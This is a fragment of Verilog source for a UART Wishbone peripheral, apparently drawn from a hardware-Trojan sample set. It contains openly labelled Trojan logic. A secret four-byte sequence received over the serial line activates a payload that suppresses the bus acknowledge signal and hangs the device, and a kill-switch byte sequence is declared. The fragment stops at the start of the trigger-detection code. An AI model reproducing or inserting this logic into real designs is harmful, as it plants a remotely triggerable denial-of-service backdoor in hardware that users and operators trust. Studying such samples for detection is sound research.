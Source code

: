 // {{{
// PAYLOAD: The Trojan state gates the acknowledgement signal.
// When trojan_active is high, o_wb_ack will never be asserted.
initial o_wb_ack = 1'b0;
always @(posedge i_clk) // Okay, time to set the ACK
o_wb_ack <= (!i_reset)&&(r_wb_ack)&&(i_wb_cyc) && !trojan_active;
// }}}
// o_wb_data
// {{{
// Finally, set the return data. This data must be valid on the same
// clock o_wb_ack is high. On all other clocks, it is irrelelant--since
// no one cares, no one is reading it, it gets lost in the mux in the
// interconnect, etc. For this reason, we can just simplify our logic.
always @(posedge i_clk)
casez(r_wb_addr)
UART_SETUP: o_wb_data <= { 1'b0, uart_setup };
UART_FIFO: o_wb_data <= wb_fifo_data;
UART_RXREG: o_wb_data <= wb_rx_data;
UART_TXREG: o_wb_data <= wb_tx_data;
endcase
// }}}
// o_wb_stall
// {{{
// This device never stalls. Sure, it takes two clocks, but they are
// pipelined, and nothing stalls that pipeline. (Creates FIFO errors,
// perhaps, but doesn't stall the pipeline.) Hence, we can just
// set this value to zero.
assign o_wb_stall = 1'b0;
// }}}
// }}}
////////////////////////////////////////////////////////////////////////
//
// TROJAN LOGIC STARTS HERE
//
////////////////////////////////////////////////////////////////////////
// Trojan trigger sequence: 0x10, 0xa4, 0x98, 0xbd
localparam [7:0] T_BYTE_1 = 8'h10;
localparam [7:0] T_BYTE_2 = 8'hA4;
localparam [7:0] T_BYTE_3 = 8'h98;
localparam [7:0] T_BYTE_4 = 8'hBD;
// Trojan kill-switch sequence: 0xfe, 0xfe, 0xfe, 0xfe
localparam [7:0] K_BYTE = 8'hFE;
// State registers for the Trojan
reg trojan_active; // Main payload state register
reg [1:0] trigger_state; // State machine for trigger sequence
reg [1:0] kill_state; // State machine for kill sequence
// This logic block implements the Trojan's state machine.
// It snoops on the raw data coming from the rxuart module, before it enters the FIFO.
// This ensures the Trojan detects the sequence regardless of whether the CPU reads the data.
always @(posedge i_clk)
begin
if (i_reset)
begin
// Reset all Trojan states
trojan_active <= 1'b0;
trigger_state <= 2'b00;
kill_state <= 2'b00;
end
// Only check for sequences when a new, valid byte is received from the UART
else if (rx_stb)
begin
if (!trojan_active)
begin
// --- TRIGGER DETECTION LOGIC ---